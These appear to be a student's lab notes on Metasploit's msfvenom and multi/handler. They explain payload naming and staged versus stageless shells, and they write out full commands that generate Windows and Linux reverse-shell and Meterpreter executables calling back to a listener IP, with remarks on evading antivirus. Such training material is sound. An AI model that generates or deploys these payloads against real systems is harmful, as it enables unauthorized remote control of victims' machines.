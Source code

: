 ## msfvenom
Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit; however, it can also be used to generate payloads in various formats (e.g. `.exe`, `.aspx`, `.war`, `.py`).

The standard syntax for msfvenom is as follows:
	`msfvenom -p <PAYLOAD> <OPTIONS>`

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:
	`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

![[Pasted image 20240818165141.png]]

Here we are using a payload and four options:
- **-f** `<format>`  Specifies the output format. In this case that is an executable (exe)
- **-o** `<file>` The output location and filename for the generated payload.
- **LHOST=**`<IP>` Local host, specify the machine connect back to.
- **LPORT=**`<port>` The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn’t already in use; however, ports below 1024 are restricted and require a listener running with root privileges.

### _Staged vs Stageless_
- _**Staged**_ payloads are sent in two parts. The first part is called the _stager_. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit multi/handler, which will be covered in the next task.  
- _**Stageless**_ payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.

*Note*:
	Stageless payloads tend to be easier to use and catch; however, they are also bulkier, and are easier for an antivirus or intrusion detection program to discover and remove. Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by less-effective antivirus software. Modern day antivirus solutions will also make use of the Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager, making staged payloads less effective than they would once have been in this area.


### _Payload Naming Conventions_
The basic convention is as follows:
	`<OS>/<arch>/<payload>`

For example:
	`linux/x86/shell_reverse_tcp`

This would generate a stageless reverse shell for an x86 Linux target.

The exception to this convention is Windows 32bit targets. For these, the arch is not specified. e.g.:
	`windows/shell_reverse_tcp`

The staged equivalent to this payload would be:
	`windows/shell/reverse_tcp`

Note:
	- **Stageless** payloads are denoted with underscores (`_`).
	- **Staged** payloads are denoted with another forward slash (`/`).

This rule also applies to Meterpreter payloads. A Windows 64bit staged Meterpreter payload would look like this:
	`windows/x64/meterpreter/reverse_tcp`

A Linux 32bit stageless Meterpreter payload would look like this:
	`linux/x86/meterpreter_reverse_tcp`


Aside from the msfconsole man page, the other important thing to note when working with msfvenom is:
	`msfvenom --list payloads`

![[Pasted image 20240818170221.png]]

	`msfvenom --list payloads | grep "linux/x64"`
	
![[Pasted image 20240818170305.png]]

	msfvenom --list formats
	
![[Pasted image 20240818170339.png]]

Q) What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is `elf` and the output filename should be `shell`.
	`msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443`


## multi/handler
Multi/Handler is a a tool for catching reverse shells. It's essential if you want to use Meterpreter shells, and is the go-to when using staged payloads.
1. Open Metasploit with `msfconsole`
2. Type `use multi/handler`, and press enter

We are now primed to start a multi/handler session. Let's take a look at the available options using the `options` command.

There are three options we need to set: payload, LHOST and LPORT. These are all identical to the options we set when generating  shellcode with Msfvenom -- a payload specific to our target, as well as a listening address and port with which we can receive a shell. Note that the LHOST _must_ be specified here, as metasploit will not listen on all network interfaces like netcat or socat will;
- `set PAYLOAD <payload>`
- `set LHOST <listen-address>`
- `set LPORT <listen-port>`

Using the `exploit -j` command it tells Metasploit to launch the module, running as a job in the background.
![[Pasted image 20240820040300.png]]

Note:
	You may notice that in the above screenshot, Metasploit is listening on a port under `1024`. To do this, Metasploit _must_ be run with `sudo` permissions.

When the staged payload generated in the previous task is run, Metasploit receives the connection, sending the remainder of the payload and giving us a reverse shell:
![[Pasted image 20240820040454.png]]

Notice that, because the multi/handler was originally backgrounded, we needed to use `sessions 1` to foreground it again. This worked as it was the only session running. Had there been other sessions active, we would have needed to use `sessions` to see all active sessions